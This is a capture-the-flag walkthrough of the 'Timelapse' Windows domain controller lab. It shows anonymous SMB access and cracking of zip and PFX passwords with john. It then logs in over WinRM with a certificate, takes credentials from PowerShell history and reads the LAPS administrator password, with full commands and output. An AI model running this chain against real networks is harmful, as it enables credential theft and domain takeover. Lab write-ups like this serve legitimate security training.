

# Timelapse



## User Flag
### Enumeration
```bash
$ sudo nmap -sC -sV -oN nmap_timelapse 10.10.11.152
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-13 19:12 CST
Nmap scan report for 10.10.11.152
Host is up (0.029s latency).
Not shown: 992 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-14 09:13:00Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  ldapssl?
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMBClient
```bash
$ smbclient -N -L \\\\10.10.11.152

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

$ smbclient -N  \\\\10.10.11.152\\Shares
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 10:39:15 2021
  ..                                  D        0  Mon Oct 25 10:39:15 2021
  Dev                                 D        0  Mon Oct 25 14:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 10:48:42 2021

                6367231 blocks of size 4096. 1281223 blocks available
smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 14:40:06 2021
  ..                                  D        0  Mon Oct 25 14:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 10:46:42 2021

                6367231 blocks of size 4096. 1277986 blocks available
smb: \Dev\> get winrm_backup.zip 
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (15.6 KiloBytes/sec) (average 15.6 KiloBytes/sec)

```

### Password, so we use John
```bash
$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
   skipping: legacyy_dev_auth.pfx    incorrect password
```

```bash
$ zip2john winrm_backup.zip > johnzip                   
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8 

$ john --wordlist=/usr/share/wordlists/rockyou.txt johnzip               
Using default input encoding: UTF-8  
Loaded 1 password hash (PKZIP [32/64])       
Will run 4 OpenMP threads                                                                                            
Press 'q' or Ctrl-C to abort, almost any other key for status             
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)                                                             
1g 0:00:00:00 DONE (2023-11-13 19:30) 3.225g/s 11204Kp/s 11204Kc/s 11204KC/s surkerior..superkebab                   
Use the "--show" option to display all of the cracked passwords reliably 
Session completed.  
```

### PFX File
We now get a private cert file `pfx`, but trying to open it with `openssl` fails. So we need to convert it to a `john` format.
```bash
$ openssl pkcs12 -in legacyy_dev_auth.pfx -info
Enter Import Password:
MAC: sha1, Iteration 2000
MAC length: 20, salt length: 20
Mac verify error: invalid password?

```

Here we can use `pfx2john` to convert the file to a `john` format.
```bash
$ pfx2john legacyy_dev_auth.pfx > johnpfx
$ john --wordlist=/usr/share/wordlists/rockyou.txt johnpfx 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:16 12.41% (ETA: 19:37:26) 0g/s 122343p/s 122343c/s 122343C/s browns6306..broeddie
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:26 DONE (2023-11-13 19:35) 0.03822g/s 123537p/s 123537c/s 123537C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

### Exporting Cert and Key using OpenSSL
Here we can use `openssl` to export the cert and key from the `pfx` file. We can then use these to authenticate to the `winrm` service.
```text
  $ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key -nodes
  $ openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert 
```


### Evil-Winrm
```text
$ evil-winrm -i timelapse.htb -S -c cert -k key 

.. SNIP

*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```

### User.txt
```text
*Evil-WinRM* PS C:\Users\legacyy\Desktop> cat user.txt
8f528*************************
```
## Machine Flag

### Whoami

```powershell
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ============================================
timelapse\legacyy S-1-5-21-671920749-559770252-3318990721-1603


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
TIMELAPSE\Development                       Group            S-1-5-21-671920749-559770252-3318990721-3101 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

.. SNIP
```

### PSReadLine History
```powershell

*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline> (Get-PSReadLineOption).HistorySavePath
C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ServerRemoteHost_history.txt
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline> cat (Get-PSReadLineOption).HistorySavePath
Cannot find path 'C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ServerRemoteHost_history.txt' because it does not exist.
At line:1 char:1
+ cat (Get-PSReadLineOption).HistorySavePath
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\Users\legacy...ost_history.txt:String) [Get-Content], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetContentCommand

    Directory: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine
```
From here we might think there is not any history file, because it was not printing it. But this is why manual enumeration is important as well. Our `HistorySavePath` is pointing to `ServerRemoteHost_history.txt` but if we look at the directory, we can see that there is a file named `ConsoleHost_history.txt`. So we try to read that file.

```powershell
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline> ls c:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/3/2022  11:46 PM            434 ConsoleHost_history.txt

*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline> cat ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

### Svc_deploy
```text
$ evil-winrm -S -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'

.. SNIP

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
```

#### Svc_Deploy privs
```text
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== ============================================
timelapse\svc_deploy S-1-5-21-671920749-559770252-3318990721-3103


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
TIMELAPSE\LAPS_Readers                      Group            S-1-5-21-671920749-559770252-3318990721-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

.. SNIP
```


### LAPS!

We see that the user is in the group `LAPS_Readers`. So we can try to use powershell to grab the LAPS password for the administrator account on our `DC01` machine. The LAPS password is under a property called `ms-Mcs-AdmPwd`. We can use the `Get-ADComputer` cmdlet to get the password.

```powershell
*Evil-WinRM* PS C:\Users\svc_deploy\DocumenGet-ADComputer -Filter 'ObjectClass -eq "computer"' -Property * | Where {$_.CN -eq "DC01"}

AccountExpirationDate                :                                                                               
accountExpires                       : 9223372036854775807                                                                                                                                                                     
AccountLockoutTime                   :                                                                               
AccountNotDelegated                  : False                                                                         
AllowReversiblePasswordEncryption    : False                                                                         
AuthenticationPolicy                 : {}      
AuthenticationPolicySilo             : {}                                                                            
BadLogonCount                        : 0                                                                             
badPasswordTime                      : 0       
badPwdCount                          : 0                                                                             
CannotChangePassword                 : False                                                                         
CanonicalName                        : timelapse.htb/Domain Controllers/DC01                                         
Certificates                         : {}   
CN                                   : DC01                                                                          
codePage                             : 0           
CompoundIdentitySupported            : {False}
countryCode                          : 0                                                                             
Created                              : 10/23/2021 11:40:55 AM
Deleted                              :                                                                               
Description                          :                   
DisplayName                          :       
DistinguishedName                    : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName                          : dc01.timelapse.htb
.. SNIP
ms-Mcs-AdmPwd                        : &mJiY$6R4S1,0u9QMlY,2A3]
ms-Mcs-AdmPwdExpirationTime          : 133448588257447697
.. SNIP
```

### Evil-WinRM as Administrator
```text
$ evil-winrm -S -i timelapse.htb -u Administrator -p '&mJiY$6R4S1,0u9QMlY,2A3]'

.. SNIP

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

### Root.txt
Now that we are in as `administrator`, we can get the root flag. It was not in the usual spot (Admin's desktop), but a quick search found it.

```powershell
*Evil-WinRM* PS C:\Users\Administrator> Get-ChildItem C:\Users -Recurse -Include root.txt -ErrorAction Ignore

    Directory: C:\Users\TRX\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       11/14/2023   1:14 AM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator> cat C:\Users\TRX\Desktop\root.txt
09ede****************************
```
